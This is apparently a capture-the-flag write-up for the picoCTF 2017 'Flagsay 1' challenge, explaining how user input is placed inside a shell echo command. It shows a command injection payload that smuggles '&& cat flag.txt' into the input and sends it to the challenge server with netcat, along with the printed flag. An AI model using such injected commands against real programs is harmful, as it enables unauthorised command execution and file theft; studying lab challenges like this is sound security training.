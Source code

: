 # Flagsay 1
```
I heard you like flags, so now you can make your own! Exhilarating! Use flagsay-1! Source. Connect on shell2017.picoctf.com:19094.
HINTS
System will run exactly what the program gives it
```

Since the program just runs the command that we give it, we just have to cat the flag and then pass that result back to the terminal. There is a catch, however, the commandBase string already contains a command.

```C
char commandBase[] = "/bin/echo \"%s\"\n";
```

We can execute a new command on top of the existing one by separating our commands from it with '&&.' We will need to cat the contents of flag.txt and then echo it to the console like so.

```
" && cat flag.txt && echo"
```

We pipe that text into the netcat application with the following python command, akin to an echo -e. 

```Python
python -c "print '\" && cat flag.txt && echo\"'" | nc shell2017.picoctf.com 19094
```

The result yields the contents of flag.txt.
```
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //
0631e788cab2c2de59a5419b6c90c55c
sh: 16: echo         /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
: not found
```
